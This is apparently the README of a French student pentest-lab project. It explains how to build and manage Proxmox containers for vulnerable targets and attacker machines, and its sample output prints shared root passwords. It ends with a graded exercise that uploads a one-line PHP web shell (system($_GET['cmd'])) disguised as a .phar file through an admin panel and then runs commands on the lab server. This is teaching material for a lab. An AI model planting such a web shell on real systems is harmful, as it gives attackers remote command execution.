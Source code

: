 # VIR2
### Installation de git

```python
sudp apt install git
```

### Clonage du repo

```python
git glone https://github.com/andre1400/VIR2.git
```
### Rendre executable les .yaml
```
find /vir2/VIR2 -name "AnsibleScriptLAB.yaml" -exec chmod +x {} \;
find /vir2/VIR2 -name "AnsibleScriptPirate.yaml" -exec chmod +x {} \;
```

### Installation du module python qu’on aura besoin pour notre script plus tard

```python
pip install absl-py
```

### Installation d’Ansbile

```bash
apt update
apt upgrade
apt install python3-pip
python3 -m pip install --user ansible
echo 'export PATH="$HOME/.local/bin:$PATH"' >> ~/.bashrc
source .bashrc
ansible-galaxy collection install community.mysql
```

### Demarrage
```
root@pve-01:~ pct start 100
```
### Attrapper la nouvelle ip
```
root@pve-01:~# pct exec 100 -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.175/24
root@pve-01:~# ssh root@ip
```
## Create new template
```
root@pve-01:~# pct clone 100 {newId} --full --storage lxc-storage
```
### Echange de clé pour la nouvelle machine
```
root@pve-01:~# ssh-keyscan 10.10.111.163 >> ~/.ssh/known_hosts
```
### Edition du .yaml et du .ini file
```
root@pve-01:~# ansible-playbook -i inventoryPirate.ini AnsibleScriptPirate.yaml --ask-pass
```
### Convertion en template
```
root@pve-01:~# pct template {newId}
```
### Edition du ScriptPython.py avec les id's
```
def main(ARGV):
    pentesterlab = 102
    attacking = 100
```
# Utilisation des contenaires
## Creation
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task create --number 5
```
/// OUTPUT
```
Creation des pentesterlabs
ID : 200 Created
ID : 201 Created
ID : 202 Created
ID : 203 Created
ID : 204 Created
Creation des machines attaquantes
ID : 300 Created
ID : 301 Created
ID : 302 Created
ID : 303 Created
ID : 304 Created
```
## Start
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task start --number 3
```
///OUTPUT
```
==Start des machines pentesterlabs==
ID : 200 IP : 10.10.111.150/24
Username: root Password: Pa$$w0rd
ID : 201 IP : 10.10.111.151/24
Username: root Password: Pa$$w0rd
ID : 202 IP : 10.10.111.152/24
Username: root Password: Pa$$w0rd

==Start des machines attaquantes Let's GO !!!...==
ID : 400 IP : 10.10.111.143/24
Username: root Password: Pa$$w0rd
ID : 401 IP : 10.10.111.153/24
Username: root Password: Pa$$w0rd
ID : 402 IP : 10.10.111.154/24
Username: root Password: Pa$$w0rd
root@pve-01:/vir2/VIR2#
```
## STOP
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task stop --number 3
```
/// OUTPUT
```
==Stop des machines pentesterlabs==
ID : 200 Stopped
ID : 201 Stopped
ID : 202 Stopped

==Stop des machines attaquantes==
ID : 400 Stopped
ID : 401 Stopped
ID : 402 Stopped
```
## SUPPRESSION (STOP + SUPPRESSION)
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task erase --number 3
```
///OUTPUT
```
==Remove des machines pentesterlabs==
  Logical volume "vm-200-disk-0" successfully removed
ID : 200 Removed
  Logical volume "vm-201-disk-0" successfully removed
ID : 201 Removed
  Logical volume "vm-202-disk-0" successfully removed
ID : 202 Removed

==Remove des machine attaquantess==
  Logical volume "vm-400-disk-0" successfully removed
ID : 400 Removed
  Logical volume "vm-401-disk-0" successfully removed
ID : 401 Removed
  Logical volume "vm-402-disk-0" successfully removed
ID : 402 Removed
```
## Lister
*Ca va lister uniquement l'environnement lab de l'étudiant, pour tous lister : pct list*

/// INPUT
```
root@pve:~# python3 ./ScriptPython.py --task list --number 2
```
///OUTPUT
```
Listing all containers :
200 stopped penterlabT
201 stopped penterlabT
300 stopped attackerT
301 stopped attackerT
```
## Exécution d’un script `myshell.php` sur `pentester-03` [3 pts]**
    1. Tester depuis le navigateur de l’étudiant *`http://pentester-03/admin/uploads/myshell.phar?cmd=ls`*
        
        <?php  
           system($_GET['cmd']);
        ?>
```
lynx http://10.10.111.169/
go to > Admin
type : y
Login : admin
Password : P4ssw0rd
go on > add
Title : myshell.PHP
File : myshell.phar
click on > add
CRTL + C to quit lynx
```
```
lynx http://10.10.111.169/admin/uploads/myshell.phar?cmd=ls
```
